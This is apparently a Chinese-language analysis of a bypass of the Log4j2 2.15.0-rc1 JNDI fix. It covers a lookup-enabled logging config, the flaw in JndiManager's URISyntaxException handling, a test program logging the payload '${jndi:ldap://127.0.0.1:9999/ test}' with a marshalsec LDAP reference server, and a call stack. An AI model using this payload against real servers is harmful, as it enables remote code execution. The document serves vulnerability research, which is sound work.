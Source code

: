 log4j2配置文件如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="error">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

**对于第二点**，在JndiManager类的lookup方法中，最后捕获URISyntaxException异常的catch块没有进行如何处理及返回，这样还是能够执行到代码的最后一行  
因此，只要触发URISyntaxException异常，就可以绕过，触发漏洞。触发异常的方式是在URL中加入一个空格

### 测试代码：

```plain
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class RC1Bypass {
    public static final Logger logger = LogManager.getLogger(RC1Bypass.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:9999/ test}");

    }
}
```

并且构建一个LDAP reference服务，监听9999端口，具体代码参考marshalsec：[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)

### 函数调用栈

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:257, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replaceIn:890, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:186, MessagePatternConverter$LookupMessagePatternConverter (org.apache.logging.log4j.core.pattern)
toSerializable:343, PatternLayout$NoFormatPatternSerializer (org.apache.logging.log4j.core.layout)
toText:241, PatternLayout (org.apache.logging.log4j.core.layout)
encode:226, PatternLayout (org.apache.logging.log4j.core.layout)
```